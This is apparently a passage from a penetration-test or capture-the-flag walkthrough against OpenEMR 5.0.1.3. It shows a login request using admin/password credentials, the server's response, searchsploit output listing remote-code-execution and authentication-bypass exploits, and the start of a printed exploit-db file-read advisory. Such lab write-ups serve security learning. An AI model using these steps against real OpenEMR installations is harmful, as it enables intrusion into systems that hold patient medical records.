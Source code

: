 ```http
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

new_login_session_management=1&authProvider=Default&authUser=admin&clearPass=password&languageChoice=1📌
```
`HTTP Response`
```http
HTTP/2 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:19:57 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: /interface/main/tabs/main.php
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: OpenEMR=fvjbf8dnmrg9h8slc9c9elsub0; path=/
Set-Cookie: OpenEMR=1dounguj91eqd3hr661bo9u1t5; path=/
Content-Length: 0
```

`searchsploit 'openemr 5.0.1.3'`:
```
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)       | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)   | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                          | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                           | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                           | php/webapps/45161.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/linux/webapps/45202.txt ./`

`cat ./45202.txt`:
```
# Exploit Title: OpenEMR 5.0.1.3 - Arbitrary File Actions
# Date: 2018-08-14
# Exploit Author: Joshua Fam
# Twitter : @Insecurity
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Version: < 5.0.1.3
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3 📌
# CVE : CVE-2018-15142,CVE-2018-15141,CVE-2018-15140 📌

# 1.Arbitrary File Read:
# In OpenEmr a user that has access to the portal can send a malcious
# POST request to read arbitrary files.

# i.Vulnerable Code:
#  if ($_POST['mode'] == 'get') {
```